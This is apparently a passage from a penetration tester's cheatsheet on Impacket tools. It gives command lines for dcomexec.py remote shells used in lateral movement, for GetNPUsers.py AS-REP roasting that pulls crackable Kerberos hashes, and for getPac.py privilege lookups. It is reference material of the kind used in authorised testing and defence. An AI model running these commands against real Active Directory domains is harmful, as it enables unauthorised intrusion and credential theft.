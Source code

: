 
## Indicators of Compromise

`wmic` mounts and writes output to `ADMIN$` share by default.
```bash
# Choose a share and does not execute cmd.exe with no output
-share $SHARE -silentcommand
```


## dcomexec.py 

Useful for [[Active-Directory-Lateral-Movement]].  A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. Currently supports MMC20.Application, ShellWindows and ShellBrowserWindow objects.
```bash
dcomexec.py $domain/$username:$password@$IP <command>
```

## dpapi.py

Password Encryption tool on Windows

## GetNPUsers.py

ASREP Roasting - For users that do not require Kerberos preauthentiation: 'Do not require Kerberos preauthentication set (UF_DONT_REQUIRE_PREAUTH). Output is compatible with JtR:[[John-The-Ripper-Cheatsheet]] use `-format hashcat` for  Hashcat: [[Hashcat-Cheatsheet]].
```bash
GetNPUsers.py  -dc-ip $IP -request '$domain/' 
GetNPUsers.py  -dc-ip $IP -request '$domain/' -format hashcat
GetNPUsers.py  -dc-ip $IP -usersfile users.txt -format john domain.tld
```
This example will attempt to list and get TGTs for those users that have the property:
```bash
# Get TGT for a user
→ GetNPUsers.py $domain/$user -no-pass
# Get a list of users with UF_DONT_REQUIRE_PREAUTH set
→ GetNPUsers.py $domain/$user:password or GetNPUsers.py $domain/$user
# Request TGTs for all users
→ GetNPUsers.py $domain/$user:password -request or GetNPUsers.py $domain/$user
# Request TGTs for users in a file
→ GetNPUsers.py $domain/ -no-pass -usersfile users.txt
```

## getPac.py

Returns the Privileged Attribute Certificate (PAC) (an extension to Kerberos tickets that contains useful information about a user's privileges) of the specified target user just having a normal authenticated user credentials. Also return Domain SID and other information.
```bash
getPac.py -targetUser Administrator $domain/$username:$password
```
